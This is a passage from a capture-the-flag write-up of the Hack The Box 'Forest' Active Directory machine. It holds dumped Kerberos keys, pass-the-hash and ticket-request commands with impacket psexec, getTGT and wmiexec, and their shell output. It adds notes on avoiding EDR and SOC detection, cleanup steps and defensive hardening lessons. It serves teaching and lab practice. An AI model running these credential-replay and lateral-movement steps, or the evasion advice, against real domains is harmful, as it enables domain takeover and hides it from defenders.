htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
baphomet:aes256-cts-hmac-sha1-96:6efc7ef3efeeb870c8f44d85530eccb3b3101793741c2f23a5245b290842b7ab
baphomet:aes128-cts-hmac-sha1-96:724fc56ef7e662f4c284ec8905fa7462
baphomet:des-cbc-md5:ce52541c1af83497
FOREST$:aes256-cts-hmac-sha1-96:8e9e3547e969b732392fd4e4e332a2dbb0f76a63161671f66a74ddb546f191c9
FOREST$:aes128-cts-hmac-sha1-96:86ebcca30f2a364a3f0dc6bc0e876548
FOREST$:des-cbc-md5:c8132fbf73c71fa8
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```

The dump gives two ways to authenticate as `Administrator`: the **NTLM hash** (`32693b11e6aa90eb43d32c72a07ceea6`) and the **Kerberos AES256 key**. Both are worth showing.

### What are Kerberos keys?

Kerberos keys are cryptographic keys derived from an account's plaintext password. When a password is set or changed, the domain controller runs it through several key-derivation routines (RC4, AES128, AES256, and legacy DES) and stores the resulting keys in `ntds.dit`. The Kerberos protocol then uses these keys to encrypt tickets and prove identity, so possessing an account's AES256 key is functionally equivalent to knowing its password for authentication purposes.

### NTLM hash: pass-the-hash

NTLM authentication never sends the plaintext password on the wire, it proves knowledge of the password's NT hash. That means the hash itself is a usable credential: an attacker who has it can authenticate as the account without ever cracking it. impacket's `psexec.py` accepts a hash directly:

```powershell
└─[$] python3 ~/ADTools/impacket/examples/psexec.py -hashes ':32693b11e6aa90eb43d32c72a07ceea6' 'htb.local/Administrator@10.129.61.86'
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.129.61.86.....
[*] Found writable share ADMIN$
[*] Uploading file mWVCWtvj.exe
[*] Opening SVCManager on 10.129.61.86.....
[*] Creating service VNWB on 10.129.61.86.....
[*] Starting service VNWB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> type root.txt
d6784b9fee242582993a2bc886531009

C:\Users\Administrator\Desktop> 
```

That is the root flag.

### Kerberos key: request a TGT

The cleaner alternative is to use the AES256 key to request a Ticket Granting Ticket and then authenticate with Kerberos. `getTGT.py` writes the ticket to `Administrator.ccache`:

```powershell
faketime "$(ntpdate -q htb.local | cut -d ' ' -f 1,2)" python3 ~/ADTools/impacket/examples/getTGT.py -aesKey '910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913' 'htb.local/Administrator'
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in Administrator.ccache
```

With `KRB5CCNAME` pointed at that file, `wmiexec.py` authenticates with `-k -no-pass`:

```powershell
└─[$] faketime "$(ntpdate -q htb.local | cut -d ' ' -f 1,2)" python3 ~/ADTools/impacket/examples/wmiexec.py 'htb.local/Administrator@forest' -k -no-pass
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\

09/20/2019  01:18 PM    <DIR>          PerfLogs
09/22/2019  04:56 PM    <DIR>          Program Files
11/20/2016  07:36 PM    <DIR>          Program Files (x86)
09/22/2019  04:02 PM    <DIR>          Users
09/09/2026  11:46 PM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  10,452,459,520 bytes free

C:\>whoami
htb\administrator
```

### What is a TGT?

A TGT (Ticket Granting Ticket) is the Kerberos credential the KDC issues after it validates a client. It is encrypted with the `krbtgt` account's key and acts as time-limited proof of identity, letting the client request service tickets (TGS) for individual resources without re-submitting credentials each time. Because it is signed by `krbtgt` and not tied to a session on any one host, a TGT obtained offline (as here, from a stolen key) is portable to any machine that trusts the domain.

## OPSEC notes

In a real engagement, `psexec.py` is noisy and worth avoiding:

- **Creates a service.** It registers a Windows service (`PSEXESVC`) on the target, leaving an obvious artifact.
- **Writes to disk.** It drops a binary onto the target, which modern AV and EDR flag readily.
- **Generates loud logs.** Service creation produces well-known events (for example Event ID 7045) that SOCs actively hunt for.
- **Distinct network signature.** The `\pipe\psexec` named-pipe traffic is easy to signature.

Beyond the noise, `psexec` may simply be blocked outright by host or domain policy, application control, or EDR.

`wmiexec.py` is the better choice for the same outcome:

- **Fileless.** Commands run in memory via WMI with no binary dropped.
- **No new service.** It uses built-in management functionality rather than registering anything.
- **Blends in.** WMI is heavily used by legitimate administration and monitoring, so the traffic looks routine.
- **Standard transport.** It rides DCOM and RPC over 135/445, mimicking normal remote administration.

### Cleanup

DCSync abuse and rogue account creation both leave persistent changes on the domain. After capturing the flag I removed the artifacts: delete the DCSync ACE (`bloodyAD ... remove dcsync 'baphomet'`), remove the account from Exchange Windows Permissions, remove `svc-alfresco` from that group again, and delete the `baphomet` account (`net user baphomet /del`). On a client engagement these actions, and their timestamps, go in the report.

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `C:\Users\svc-alfresco\Desktop\user.txt` |
| `root.txt` | `C:\Users\Administrator\Desktop\root.txt` |

---

## Lessons and Takeaways

- **Disable anonymous LDAP binds.** Set `dsHeuristics` to forbid anonymous operations. An unauthenticated attacker should not be able to enumerate the entire user population from the internet-facing edge of the domain.
- **No account without a reason should have pre-authentication disabled.** `DONT_REQ_PREAUTH` exists for legacy interop and is almost never needed. Audit for it (`Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}`) and pair every service account with a long random password so an AS-REP roast leads nowhere.
- **Enable an account-lockout policy.** `lockoutThreshold: 0` here meant online guessing was consequence-free. Even a generous threshold changes the economics of spraying.
- **Treat Account Operators as tier-0.** It can create users and modify most groups. It should be empty in almost every environment.
- **Exchange's `WriteDacl` on the domain is the real bug.** Installing Exchange historically granted **Exchange Windows Permissions** WriteDacl over the domain object, which is one ACL edge away from DCSync. Apply Microsoft's split-permissions model or the community `AD ACL` hardening, and monitor the domain object's DACL for change.
- **Monitor for replication from non-DCs.** A `DS-Replication-Get-Changes-All` request from anything that is not a domain controller (Event ID 4662 with the replication GUIDs) is a near-certain sign of DCSync.

---

## Related Writeups

- **AS-REP roasting:** [Attacktive Directory](/writeups/tryhackme/windows/medium/attacktive-directory/), [VulnNet Roasted](/writeups/tryhackme/windows/medium/vulnnet-roasted/), [Raz0rBlack](/writeups/tryhackme/windows/medium/raz0rblack/), [Reset](/writeups/tryhackme/windows/hard/reset/)
- **BloodHound ACL abuse into DCSync:** [VulnNet Roasted](/writeups/tryhackme/windows/medium/vulnnet-roasted/), [Anubis](/writeups/hackthebox/windows/insane/anubis/), [Ascension](/writeups/hackthebox/endgames/ascension/)
- **Anonymous / null-session enumeration:** [Certified](/writeups/hackthebox/windows/medium/certified/), [Reset](/writeups/tryhackme/windows/hard/reset/)
- **Pass-the-hash to SYSTEM:** [Certified](/writeups/hackthebox/windows/medium/certified/), [Attacktive Directory](/writeups/tryhackme/windows/medium/attacktive-directory/)

## References

- HTB Forest (0xdf) <https://0xdf.gitlab.io/2020/03/21/htb-forest.html>
- AS-REP roasting (The Hacker Recipes) <https://www.thehacker.recipes/ad/movement/kerberos/asreproast>
- DCSync (The Hacker Recipes) <https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync>
- Abusing Exchange: One API call away from Domain Admin (dirkjanm) <https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/>
- Impacket <https://github.com/fortra/impacket>
